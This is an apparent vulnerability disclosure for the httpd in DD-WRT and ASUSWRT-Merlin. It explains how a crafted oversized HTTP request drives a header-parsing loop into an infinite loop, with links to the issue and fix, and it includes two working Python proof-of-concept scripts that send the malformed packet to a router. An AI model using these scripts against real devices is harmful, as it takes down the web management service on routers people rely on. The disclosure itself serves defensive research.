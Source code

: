 # Logical Vulnerability in DD-WRT/ASUSWRT-Merlin.gn could make http service unreachable

## Vul Description

The httpd in DD-WRT and asuswrt-merlin.gn has a logic vulnerability when parsing the http request. Sending the constructed special data packet can make the http service unreachable.

## Affected version

DD-WRT has fixed the vulnerability in the latest version of the source code

The vulnerability still exists in the latest version of the source code of ASUSWRT-Merlin.gn

## Product link

http://svn.dd-wrt.com/

https://github.com/RMerl/asuswrt-merlin.ng

## Vul Detail: DD-WRT

issue：https://svn.dd-wrt.com/ticket/7029

fix ：https://svn.dd-wrt.com/changeset/42748/src/router/httpd/httpd.c

The vulnerability is in the `handle_request` function in`src/router/httpd/httpd.c`. The code snippet is as follows:

```c
#define LINE_LEN 10000

static void *handle_request(void *arg){
    ...
    char *line;
    line = malloc(LINE_LEN);
    ...
    // http request header: 
    // "GET /url/path HTTP/1.1\r\nHost: 192.168.0.1"
    // protocol --> "HTTP/1.1\r\nHost: 192.168.0.1"
	cp = protocol;
	strsep(&cp, " ");
    // cur --> "192.168.0.1"
	cur = protocol + strlen(protocol) + 1;
	/* Parse the rest of the request headers. */

	while (wfgets(cur, line + LINE_LEN - cur, conn_fp, &eof) != 0)	//jimmy,https,8/4/2003
	{
		if (eof) {
			send_error(conn_fp, 408, "TCP Error", NULL, "Unexpected connection close");
			goto out;
		}
		if (strcmp(cur, "\n") == 0 || strcmp(cur, "\r\n") == 0) {
			break;
		} else if (strncasecmp(cur, "Authorization:", 14) == 0) {
			cp = &cur[14];
			cp += strspn(cp, " \t");
			authorization = cp;
			cur = cp + strlen(cp) + 1;
		} else if (strncasecmp(cur, "Referer:", 8) == 0) {
			cp = &cur[8];
			cp += strspn(cp, " \t");
			referer = cp;
			cur = cp + strlen(cp) + 1;
		} else if (strncasecmp(cur, "Host:", 5) == 0) {
			cp = &cur[5];
			cp += strspn(cp, " \t");
			host = cp;
			cur = cp + strlen(cp) + 1;
		} else if (strncasecmp(cur, "Content-Length:", 15) == 0) {
			cp = &cur[15];
			cp += strspn(cp, " \t");
			content_length = strtoul(cp, NULL, 0);

		} else if ((cp = strstr(cur, "boundary="))) {
			boundary = &cp[9];
			for (cp = cp + 9; *cp && *cp != '\r' && *cp != '\n'; cp++) ;
			*cp = '\0';
			cur = ++cp;
		}
#ifdef HAVE_IAS
		else if (strncasecmp(cur, "User-Agent:", 11) == 0) {
			cp = &cur[11];
			cp += strspn(cp, " \t");
			useragent = cp;
			cur = cp + strlen(cp) + 1;
		} else if (strncasecmp(cur, "Accept-Language:", 16) == 0) {
			cp = &cur[17];
			cp += strspn(cp, " \t");
			language = cp;
			cur = cp + strlen(cp) + 1;
		}
#endif
	}
    ...
}
```

The characteristics of the wfgets(): if the value of the second parameter of the function is 1, then wfgets will not read data from stream(conn_fp), but the returned is still a normal pointer (cur address). The first byte of the pointer to memory will be set to `\x00`.

The cur's value is calculated by `protocol + strlen(protocol) + 1;`, if we construct data packet such as `'GET /uri' + 'a' * (LINE_LEN-3-9) + '\n' + 'bbbbb'` , then, `cur = protocol + strlen (protocol) + 1` will point to the address of` line + LINE_LEN-1`. Therefore, the second parameter of wfgets `line + LINE_LEN-cur` will be 1, and there is no handling of abnormal conditions such as `cur -> '\ x00'` in the while loop, so the program will fall into an infinite loop.

poc is as follows：

```python
import socket

LINE_LEN = 10000
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.144", 80))
start = 'GET /uri '
payload = start+'a'*(LINE_LEN-3-(len(start)))+'\n'+'b'*30
s.send(payload)
print(s.recv(1024))
s.close()
```

![](https://raw.githubusercontent.com/e3pem/mdimage/master/img/poc.png)


## Vul Detail: asuswrt-merlin.gn

issue： https://github.com/RMerl/asuswrt-merlin.ng/issues/456

The vulnerability is in the `handle_request` function in`release/src/router/httpd/httpd.c`. The code snippet is similar to `DD-WRT`, as shown below:


```c
handle_request(void){
    char line[10000], *cur;
    ...
    cur = protocol + strlen(protocol) + 1;

#ifdef TRANSLATE_ON_FLY
	memset(Accept_Language, 0, sizeof(Accept_Language));
#endif

	/* Parse the rest of the request headers. */
	while ( fgets( cur, line + sizeof(line) - cur, conn_fp ) != (char*) 0 )
	{
		//_dprintf("handle_request:cur = %s\n",cur);
		if ( strcmp( cur, "\n" ) == 0 || strcmp( cur, "\r\n" ) == 0 ) {
			break;
		}
        else if ( strncasecmp( cur, "Accept-Language:", 16) == 0 ) {
            ...
        }
        else if ( strncasecmp( cur, "Authorization:", 14 ) == 0 ){
            ...
        }
        else if ( strncasecmp( cur, "User-Agent:", 11 ) == 0 ){
            ...
        }
        else if ( strncasecmp( cur, "Cookie:", 7 ) == 0 ){
            ...
        }
        else if ( strncasecmp( cur, "Referer:", 8 ) == 0 ){
            ...
        }
        else if ( strncasecmp( cur, "Host:", 5 ) == 0 ){
            ...
        }
        else if (strncasecmp( cur, "Content-Length:", 15 ) == 0) {
            ...
        }
        else if ((cp = strstr( cur, "boundary=" ))) {
            ...
        }
    }
}
```

Constructing a proper malformed data packet can make `line + sizeof(line)-cur = 1`, and the program will fall into an infinite loop:

poc is as follows：

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.1", 80))
start = 'GET /uri '
payload = start+'a'*(10000-3-(len(start)))+'\n'+'b'*30
s.send(payload)
print(s.recv(1024))
s.close()
```

